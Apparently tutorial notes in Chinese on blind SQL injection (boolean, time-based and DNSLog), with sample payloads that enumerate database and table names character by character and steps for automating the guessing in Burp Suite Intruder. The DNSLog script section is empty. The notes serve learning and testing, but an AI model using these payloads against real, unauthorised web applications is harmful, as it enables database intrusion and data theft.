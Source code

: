 # 无显注入法--无法通过页面直接显示数据和错误信息

###       0x01 布尔盲注

####                     原理:

![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)

####                     方法: 配合Burpsuite快速匹配

![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)

####                     注入流程:

```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数
```

###       0x02 时间盲注

####                     原理:

![](/assets/B435E9AB095D69230969F8256C149BB5.png)

####                     方法: 配合Burpsuite快速匹配

![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)

###       0x03 DNSLog盲注

####                     方法: 目标服务器是 windows server 才能用此方法

![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)

####                     脚本:



